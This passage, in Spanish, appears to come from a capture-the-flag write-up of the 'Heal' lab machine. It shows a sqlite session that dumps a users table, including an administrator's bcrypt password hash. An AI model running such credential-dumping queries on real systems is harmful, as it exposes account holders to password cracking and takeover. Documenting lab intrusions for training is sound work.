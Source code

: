 ![alt text](../assets/images/heal/image-35.png)

Encontré una tabla de usuarios llamada ```users``` y comprobé el contenido.

![alt text](../assets/images/heal/image-36.png)

```sh
sqlite> .mode column
sqlite> .headers on
sqlite> select * from users;
id  email                password_digest                                               created_at                  updated_at                  fullname       username   is_admin
--  -------------------  ------------------------------------------------------------  --------------------------  --------------------------  -------------  ---------  --------
1   ralph@heal.htb       $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG  2024-09-27 07:49:31.614858  2024-09-27 07:49:31.614858  Administrator  ralph      1       
2   ibl4zquez@email.com  $2a$12$9JqZO5k2ELsnq8ULtTn1uuUyCvENX0xxVNGpa7WySVsnfyqxeIFHe  2025-02-08 20:18:52.433370  2025-02-08 20:18:52.433370  ibl4zqu3z      ibl4zqu3z  0       
sqlite> select username,password_digest from users;
username   password_digest                                             
---------  ------------------------------------------------------------
ralph      $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
ibl4zqu3z  $2a$12$9JqZO5k2ELsnq8ULtTn1uuUyCvENX0xxVNGpa7WySVsnfyqxeIFHe

```
